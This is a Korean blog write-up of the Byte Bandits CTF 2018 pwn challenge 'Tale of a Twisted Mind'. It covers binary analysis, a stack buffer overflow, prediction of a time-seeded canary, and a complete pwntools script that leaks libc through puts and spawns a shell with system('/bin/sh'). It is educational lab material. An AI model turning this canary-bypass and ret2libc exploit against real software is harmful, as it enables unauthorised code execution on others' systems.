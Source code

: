 ```yaml
---
layout: post
title: ! "[Byte Bandits] Tale of a Twisted Mind Writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - ByteBanditsCTF2018
  - MyriaBreak
---
```


Pwn문제를 뭘 풀까 찾다가 2달전에 했던 `Byte Bandits CTF 2018`에서 봤던 문제를 풀어보기로 했다.
`Tale of a Twisted Mind`라는 문제로 CTF 당시에는 Pwnable에 익숙하지 않은지라 풀지 못했으나 지금은 어느정도 개념이 잡혔고, 문제점수 또한 250점으로 난이도가 적당할 거 같아서 풀어보기로 하였다.

<!--more-->

```
We all know how intelligent Layat is... He says that since everyone knows how gcc programs are protected, he set out to protect them by his own secret way.

But Alas! Even the compiler asked "Art Though Dumb?"

nc 34.218.199.37 6000
```

문제는 위와 같고, 바이너리 파일과 라이브러리를 주므로 이걸 분석하면 된다.
당연하지만 현재 서버는 닫혔고, 라이브러리를 주긴했으나 그냥 로컬기준으로 해서 문제를 풀겠다.(물론 LD_PRELOAD로 설정해줘도 되긴하다.)

먼저 `checksec`을 이용해 어떤 보호기법들이 적용되어있는지 살펴보겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_01.PNG)  

`32bit`이고 `Canary`와 `NX`가 걸려있어 매우 어려울 것 같은 느낌이다.
아직 뭘 해야할지 잘 모르겠으니, 먼저 실행해보자.
실행하면 아래와 같이 모듈러연산을 하는 식을 던져주는데, 이게 풀어도 풀어도 계속 문제를 준다 ㅡㅡ;

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_02.PNG)  

일단 프로그램의 시작부분이 어떻게 시작하는 지 알았으니 이제 IDA를 사용해 저 부분을 한번 살펴보자.
저 문구 자체는 `String Window`에서 쉽게 찾을 수 있고, 거기서 거슬러 올라가면 이 프로그램의 흐름을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_03.PNG)  

여기서 사용되고 있고, 사용하고 있는 함수를 찾아보면 `sub_8048867()`에서 찾을 수 있고, 여기서 더 올라가보면 이 함수가 312번 호출되는 것을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_04.PNG)
![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_05.PNG)

그렇다면 저 함수를 312번 호출이 끝나면 무엇이 수행되는지 보자.
아래 그림을 통해 이 프로그램이 대략적으로 어떻게 돌아가는지 표현해보았다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_06.PNG)  

사용자에게 312번의 수식계산(Question)을 시키고, 이를 통과하게 되면 사용자가 원하는 값을 fgets를 통해 `buffer`에 쓸 수 있다.
그런데 여기서 buf에 해당하는 `s`는 `bp-14`의 위치에 있는데, fgets를 통해 `46`의 길이를 읽게되므로 `Buffer Overflow`가 일어나는 것을 알 수 있다.

```
  int v2; // eax@1
  int v3; // eax@2
  int result; // eax@3
  int v5; // eax@6
  int v6; // edx@9
  signed int i; // [sp+4h] [bp-18h]@1
  char s; // [sp+8h] [bp-14h]@8
  int v9; // [sp+18h] [bp-4h]@1
```

그럼 이제 bof를 이용해 함수 흐름을 조작해서 libc_base를 leak하고, 최종적으로는 ROP로 system("/bin/sh")를 수행할 수 있을 것이다!
... 인줄 알았지만 아직 `Canary`가 남아있었다 ...

다시 위에서 정리해놓은 것을 보면 `Canary`는 `sub_8048801()`에 의해 27~29줄에서 다시 설정된다.
그런데 이 `sub_8048801()`이란 함수가 이전에도 많이 쓰이는데... 바로 처음에 사용자에게 던져주는 수식의 난수생성에 쓰인다.

여러번 실행해보면 알겠지만 주어지는 수식의 값이 항상 다르다는 것을 알 수 있는데, IDA를 통해 hexray한 코드를 보면
이 random한 값은 `time(0)`에 의한 결과이다. time(0)의 값이 이 프로그램에서는 C함수에서 srand(seed)의 seed값으로 들어가는 것과 같은 효과가 여기서 나타난다.
그러므로 time(0)이 같다면 항상 같은 난수 생성이 가능하다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_07.PNG)  

time(0)의 값을 설정하고 랜덤한 값을 `312*2`번 뽑고, 한번 더 뽑게되면 우리가 원하는 `Canary`값을 얻을 수 있다.
그럼 이제 어떻게 할까?
Canary값을 구하기 위한 두가지 방법이 있다.

1. 해당 프로그램에서 Random값을 뽑아내는 알고리즘과 같은 알고리즘을 쓰는 소스를 구현한다.
2. 바이너리 code patch를 통해 우리가 원하는 Canary값을 출력하게 한다.

여기서는 후자, code patch를 이용해서 Canary값을 출력하는 방법을 사용하겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_08.PNG)  

위에서 Canary값을 설정하는 코드를 보면 Canary값을 설정한 후, bss영역(전역변수)의 dword_804AA28에 저장하게되는데
이 부분을 puts을 통해 출력하게 patch한다면 우리가 원하는 Canary값이 puts를 통해 출력될 것이다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_09.PNG)

자! 이제 원본파일인 `twisted`와 Canary를 출력하게 patch한 `twisted_modipy`를 동시에 실행한다면
time(0)의 값을 같으므로 같은 난수생성을 하게 되고, 같은 Canary값을 가질 것이다. 
이 때 우리는 `twisted_modipy`를 통해 Canary값을 얻을 수 있으므로, `twisted`에서 bof를 성공적으로 일으킬수 있다.

그럼 이제 코드짜는 일만 남았다..
계획은 일단 아래와 같다.

1. 먼저 puts.plt로 리턴하여 puts.got를 인자로 넣어 `puts_addr`을 구한다.
2. 위에서 구한 puts_addr을 이용해서 `libc_base`를 구한다.
3. `libc_base`를 통해 system함수와 "/bin/sh"의 주소를 구한다.
4. `system("/bin/sh")`를 실행한다.

급마무리하는 느낌이 있지만, 익스코드는 아래와 같다.

```
from pwn import *
import string

#context.log_level = 'debug'

elf = ELF("./twisted")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

conn = process("./twisted", env={"LD_PRELOAD":"libc.so.6"})
patched = process("./twisted_modify", env={"LD_PRELOAD":"libc.so.6"})

for i in range(0,312):
	Equation = conn.recvuntil("=")
	patched_Equation = patched.recvuntil("=")
	patched.recvline()
	conn.recvline()
	if not (Equation == patched_Equation):
		break
	op1, op2 = Equation[:-1].split("%")
	result = int(op1) % int(op2)
	conn.sendline(str(result))
	patched.sendline(str(result))

patched.recvline()
canary = patched.recv(4)
patched.close()
print("")

log.info("canary : 0x%x\n" % u32(canary))

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

fgets_sbuf = 0x8048979
bss = 0x804A800

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(puts_plt)
payload += p32(fgets_sbuf)
payload += p32(puts_got)

conn.recvuntil(":")
conn.send("a")	## getchar != '\n'
conn.sendline(payload)

conn.recvline()
puts_addr = conn.recv(4)
puts_sym = libc.symbols['puts']

libc_base = u32(puts_addr)-puts_sym
system_offset = 0x40310
bin_sh_offset = 0x162d4c
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info("base_libc   : 0x%x" % libc_base)
log.info("puts_addr   : 0x%x" % u32(puts_addr))
log.info("system_addr : 0x%x" % system_addr)
log.info("bin_sh_addr : 0x%x" % bin_sh_addr)

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(system_addr)
payload += "BBBB"
payload += p32(bin_sh_addr)

conn.sendline(payload)
conn.interactive()

```

위 파이썬 익스코드를 실행하면 Shell을 획득할 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_10.PNG)  

### *후기

재미있는 문제였다. 일단 seed값을 똑같이 설정해서 같은 랜덤값을 얻는 문제를 실제로 풀어본 것이 처음이였다.

뭐... 그 만큼 삽질을 많이해서 굉장히 시간을 많이 잡아먹었지만 ㅡㅡ;

일단 `while(getchar() == 10) ;` 부분이 당연히 버퍼를 비워주기 위한 코드인줄 알아서 익스할때 익스가 제대로 되지않아서 많은 시간을 잡아먹었고,

최근에 execve() 함수 안에 "/bin/sh"를 호출해주는 부분으로 바로 뛰어 쉘을 한방에 띄울 수 있다는 `oneshot gadget`이란 것을 알게 되어 이 원샷가젯을 사용하려다가 굉장히 많은 시간을 잡아먹었다.
일단 원샷가젯에 대한 결론을 말하자면... 32bit 바이너리라서 원샷가젯이 안먹힌다;; 64bit에서는 정상적으로 사용가능하므로 64bit 익스에만 사용하도록 하자.

그래도 삽질한 만큼 많은 걸 배운것 같다. 이상 마무리~

